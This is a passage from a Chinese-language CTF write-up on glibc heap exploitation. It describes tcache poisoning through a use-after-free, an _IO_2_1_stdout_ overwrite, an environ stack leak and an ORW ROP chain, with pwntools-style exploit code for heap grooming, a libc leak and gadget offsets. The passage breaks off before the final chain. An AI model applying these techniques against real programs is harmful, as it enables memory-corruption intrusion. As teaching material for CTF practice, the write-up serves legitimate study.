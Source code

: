 ### 思路

主要是是通过在unsorted bin中向前合并堆块，以此来申请chunk 改变UAF存留在tcache bin中的指针，然后申请第二次就可以修改 \_IO\_2\_1_stdout_ 结构体，用 environ 泄露出栈地址以获得程序的返回地址，然后把重叠的堆块再次释放，修改size和fd后再申请两次，在第二次直接传入在程序返回地址处构造的orw链就能成功getshell了。

### 详细流程

```plain
for i in range(7):
    add(0x80,'aaaa')

add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x10,'aaaa')

for i in range(7):
    delete(i)
```

先填满tcache bin，然后为下面的合并申请几个chunk

[![](assets/1701612363-1ca3479e61a7f1873b7e14d59d3971fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212940-a9932a62-19a5-1.png)

[![](assets/1701612363-9e9c8632e1d30ea49ea89ff09ba14be3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212945-acd4737a-19a5-1.png)

```plain
UAF(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
leak("libc_base ",libc_base)
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

environ = libc_base + libc.sym['environ']
leak('environ ',environ)
read_addr = libc_base + libc.sym['read']
open_addr = libc_base + libc.sym['open']
puts_addr = libc_base + libc.sym['puts']

pop_rdi_ret = libc_base + 0x0000000000023b6a
pop_rsi_ret = libc_base + 0x000000000002601f
pop_rdx_ret = libc_base + 0x0000000000142c92
```

然后UAF泄露一下libc\_base

[![](assets/1701612363-3472a972374895924bafbdf35bfee94f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213000-b5a3c44c-19a5-1.png)

```plain
delete(7)
```
